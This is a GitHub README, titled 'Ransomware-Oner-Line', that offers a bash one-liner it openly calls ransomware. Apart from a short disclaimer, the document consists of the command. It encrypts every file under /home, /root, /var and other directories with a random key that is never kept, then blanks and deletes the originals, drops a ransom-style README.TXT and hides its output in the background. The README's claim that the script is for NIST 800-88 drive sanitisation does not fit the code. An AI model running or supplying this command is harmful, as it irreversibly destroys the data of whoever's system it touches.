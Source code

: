 # Ransomware-Oner-Line
This is a code for ransomware in bash script oner line. !!! PURELY FOR ACADEMICAL PURPOSES !!!  

I am not responsible in any way for the misuse of this script, this is code normally installed in any linux distribution  
that has been bundled in a way to encrypt all data using AES-CBC-256 encryption with openssl.  

This script was developed for the purpose of sanitizing physical storage drives for disposal to NIST-800-88 standard  

With great powers, great responsibilities...  

### Code

```
Ranswom@lock:~$ for i in $(find /home /media /mnt /opt /root /srv /tmp /var -type f); do openssl enc -aes-256-cbc -a -salt -in $i -out $i.cry -k $(echo -n $RANDOM | base64 | sha256sum) && echo '' > $i && rm -rf $i;echo 'All your files has been encrypted !' > $HOME/README.TXT;done >/dev/null 2>&1& 
```
